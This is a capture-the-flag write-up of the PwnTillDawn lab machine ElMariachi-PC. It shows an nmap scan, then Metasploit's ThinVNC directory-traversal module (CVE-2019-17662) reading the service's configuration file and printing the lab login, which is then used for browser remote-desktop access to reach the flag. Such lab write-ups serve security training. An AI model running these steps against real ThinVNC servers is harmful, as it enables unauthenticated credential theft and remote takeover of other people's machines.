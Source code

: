 ```yaml
---

title: "ElMariachi-PC - 10.150.150.69"
date: 2022-04-21 01:09:33 +0300
author: oste
image: /assets/img/Posts/ElMariachi-PC.png
categories: [PwnTillDawn, PTD-EASY]
tags: [metasploit, ThinVNC, CVE-2019-17662, THINVNC 1.0B1 PATH TRAVERSAL]
---
```


We first begin by performing an nmap scan to determine what ports are open and what services are running behind them.

```bash
➜  PWNTILLDAWN nmap -sC -sV -p- -T4 10.150.150.69
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-21 10:23 EDT
Stats: 0:03:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 59.09% done; ETC: 10:29 (0:02:16 remaining)
Nmap scan report for 10.150.150.69
Host is up (0.16s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-04-21T15:18:05+00:00; +45m25s from scanner time.
| rdp-ntlm-info:
|   Target_Name: ELMARIACHI-PC
|   NetBIOS_Domain_Name: ELMARIACHI-PC
|   NetBIOS_Computer_Name: ELMARIACHI-PC
|   DNS_Domain_Name: ElMariachi-PC
|   DNS_Computer_Name: ElMariachi-PC
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-21T15:17:35+00:00
| ssl-cert: Subject: commonName=ElMariachi-PC
| Not valid before: 2022-04-20T13:52:13
|_Not valid after:  2022-10-20T13:52:13
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
50417/tcp open  msrpc         Microsoft Windows RPC
60000/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest:
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="xsj1AAvQ5UDo9kcCC9DlQA==", opaque="dQwMTtxk2a2YM2Qf4DoI35O5R0L08eFaCP"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port60000-TCP:V=7.92%I=7%D=4/21%Time=62616A5D%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,179,"HTTP/1\.1\x20401\x20Access\x20Denied\r\nContent-Type:\x2
SF:0text/html\r\nContent-Length:\x20144\r\nConnection:\x20Keep-Alive\r\nWW
SF:W-Authenticate:\x20Digest\x20realm=\"ThinVNC\",\x20qop=\"auth\",\x20non
SF:ce=\"xsj1AAvQ5UDo9kcCC9DlQA==\",\x20opaque=\"dQwMTtxk2a2YM2Qf4DoI35O5R0
SF:L08eFaCP\"\r\n\r\n<HTML><HEAD><TITLE>401\x20Access\x20Denied</TITLE></H
SF:EAD><BODY><H1>401\x20Access\x20Denied</H1>The\x20requested\x20URL\x20\x
SF:20requires\x20authorization\.<P></BODY></HTML>\r\n")%r(FourOhFourReques
SF:t,111,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20text/html\r
SF:\nContent-Length:\x20177\r\nConnection:\x20Keep-Alive\r\n\r\n<HTML><HEA
SF:D><TITLE>404\x20Not\x20Found</TITLE></HEAD><BODY><H1>404\x20Not\x20Foun
SF:d</H1>The\x20requested\x20URL\x20nice%20ports%2C/Tri%6Eity\.txt%2ebak\x
SF:20was\x20not\x20found\x20on\x20this\x20server\.<P></BODY></HTML>\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-21T15:17:35
|_  start_date: N/A
|_clock-skew: mean: 45m24s, deviation: 0s, median: 45m24s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 534.88 seconds
➜  PWNTILLDAWN
```

We have quite a number of ports open running on higher ports. However, port 60000 stood out as it looks like its running ThinVNC.

> _ThinVNC is a web remote access client.It provides native, secure data transmission using HTTP and SSL. ThinVNC offers three connection modes: Screen Sharing, Remote Desktop (via RDP) and File. Transfer._

Doing some research, we find some vulnerabilities targeting the service. I tried the Directory Traversal POC listed in [rapid7's](https://www.rapid7.com/db/modules/auxiliary/scanner/http/thinvnc_traversal/) site and it worked like a charm. The vulnerability basically allows unauthenticated users to retrieve arbitrary files, including the ThinVNC configuration file which contains the username and password.

```bash
msf6 > search thinvnc_traversal

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/thinvnc_traversal  2019-10-16       normal  No     ThinVNC Directory Traversal


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/thinvnc_traversal

msf6 > use 0
msf6 auxiliary(scanner/http/thinvnc_traversal) > options

Module options (auxiliary/scanner/http/thinvnc_traversal):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     2                yes       Depth for Path Traversal
   FILEPATH  ThinVnc.ini      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host

msf6 auxiliary(scanner/http/thinvnc_traversal) > set RHOSTS 10.150.150.69
RHOSTS => 10.150.150.69
msf6 auxiliary(scanner/http/thinvnc_traversal) > set RPORT 60000
RPORT => 60000
msf6 auxiliary(scanner/http/thinvnc_traversal) > exploit

[+] File ThinVnc.ini saved in: /root/.msf4/loot/20220421102214_default_10.150.150.69_thinvnc.traversa_814508.txt
[+] Found credentials: desperado:TooComplicatedToGuessMeAhahahahahahahh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/thinvnc_traversal) >
```

Awesome, so now we have some creds we can use to login : `desperado:TooComplicatedToGuessMeAhahahahahahahh`. Visiting the site, we get a prompt to input our creds.

![image](https://user-images.githubusercontent.com/58165365/164482229-339b6dfa-2c13-499a-b864-2510a97f3057.png)

Once authenticated, you need to input the machine's IP and hit connect.

![image](https://user-images.githubusercontent.com/58165365/164481582-eafcd75f-70a3-4208-8c53-e45267e4370c.png)

We now get an RDP-like session on the browser and once you navigate to the Desktop, you can easily get the flag.

![image](https://user-images.githubusercontent.com/58165365/164481335-f893504d-ffc6-4a78-920c-bd8bf2ef15ce.png)

Easy peasy😎

![image](https://www.gifcen.com/wp-content/uploads/2022/01/hacker-gif.gif)

Special shout out to the team behind the PTD network:

- [https://www.wizlynxgroup.com/](https://www.wizlynxgroup.com/)
- [https://online.pwntilldawn.com/](https://online.pwntilldawn.com/)
